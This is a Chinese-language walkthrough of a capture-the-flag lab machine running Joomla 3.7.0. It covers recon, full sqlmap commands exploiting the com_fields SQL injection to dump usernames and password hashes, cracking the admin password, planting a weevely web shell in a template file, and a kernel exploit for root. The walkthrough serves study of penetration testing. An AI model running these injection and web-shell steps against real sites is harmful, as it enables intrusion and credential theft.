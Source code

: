 ## arp-scan

使用Kali中的[arp](https://so.csdn.net/so/search?q=arp&spm=1001.2101.3001.7020)-scan工具扫描结果如下：<br />![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632720.png)

## nmap

探测使用[nmap](https://so.csdn.net/so/search?q=nmap&spm=1001.2101.3001.7020)工具端口扫描结果如下![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632726.png)
由扫描结果知开放端口只有一个:80(http默认端口)

## 访问web

访问web界面如下：![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632724.png)

## 对网站信息收集
打开插件Wappalyzer进行网站指纹识别如下：

```markdown
从指纹识别信息中提取出的信息有:
1. 内容管理系统（CMS）：Joomla # Joomla！是使用PHP语言加上MySQL数据库所开发的软件系统
2. 操作系统：Ubuntu
3. 字体脚本：Google Font API
4. Web服务器：Apache 2.4.18
5. 编程语言：PHP
6. JavaScript：JQuery 1.12.4 JQuery Migrate 1.4.1
7. 用户界面（UI）框架：Bootstrap
```

Kali中的joomscan网站扫描工具就是专门用来扫描此类网站的

`joomscan -url http://192.168.164.132`
![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632725.png)
其中joomla版本为：3.7.0

后台管理页面为：[http://192.168.164.132/administrator/](http://192.168.164.132/administrator/)

## 用户密码破解

搜索漏洞

`searchsploit joomla 3.7.0`![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632731.png)
我们查看这个sql注入的文本文档`searchsploit joomla 3.7.0 -m 42033`![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632734.png)
写的很详细，包括注入的类型和payload及使用sqlmap暴力注入

直接上sqlmap

**暴库**

`sqlmap -u "http://192.168.164.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632471.png)
**暴表**

`sqlmap -u "http://192.168.164.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]`![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632604.png)
看到了user相关表![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632654.png)
**暴字段**

`sqlmap -u "http://192.168.164.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --columns -p list[fullordering]`![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632727.png)
**暴内容**

`sqlmap -u "http://192.168.164.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" -C "username,password" --dump -p list[fullordering]`![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632976.png)
破解密码将密文保存到一个文件中使用john破解,：后面的为密码![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632028.png)
用户admin的密码为snoopy使用admin登录web

## 提权

生成木马![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632049.png)
访问[Protostar Details and Files](http://192.168.164.132/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==)
点进去更改index.php的内容，写入木马![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632132.png)
保存,使用weevely连接![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632145.png)
Find查找有特殊位权限文件`find / -perm -u=s -type f 2>/dev/null`![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632201.png)
查看系统内核以及系统版本![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632668.png)
只要符合条件的都可以试一下,这里选择39772,下载![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632691.png)
记住使用方法,kali去下载这个压缩包![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632745.png)
**靶机下载**![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632904.png)
解压zip![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632918.png)
进入目录,继续解压exp

![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632934.png)
反弹shell,weevely有些不好使![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632078.png)
更换为全交互终端

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

进入这个目录,运行文件![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632334.png)
等待大概1分钟,提权成功![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632353.png)
查看flag

![](https://wordpress-1258894728.cos.ap-beijing.myqcloud.com/202402181632430.png)
